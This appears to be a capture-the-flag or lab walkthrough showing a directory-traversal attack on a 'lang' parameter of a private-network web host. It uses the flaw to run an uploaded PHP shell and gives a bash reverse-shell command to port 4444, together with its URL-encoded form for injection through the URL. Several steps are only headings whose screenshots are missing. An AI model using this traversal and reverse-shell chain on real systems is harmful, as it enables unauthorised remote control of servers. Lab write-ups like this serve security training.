



::: page
# directory traversal {#directory-traversal .title}

\

From the **/secret_information/** directory **url**, found this
**interesting parameter** :

<http://192.168.56.111/secret_information/?lang=en.php>

the **lang** paramter is **loading php files**.

Lets try **directory traversal** :

Lets check for the **shell we uploaded** :

Lets **transfer this shell to our kali** :

If we use a **normal transfer script** :

**bash -c \'bash -i \>& /dev/tcp/192.168.56.1/4444 0\>&1\'**

This wont work in the url because **&** will **break the url**.

so we replace **&** with url encoded value **%26** and then :

**http://192.168.56.111/secret_information/?lang=../../../../../var/ftp/pub/shell.php&cmd=bash
-c \'bash -i \>%26 /dev/tcp/192.168.56.1/4444 0\>%261\'**

We **got a shell** :

:::
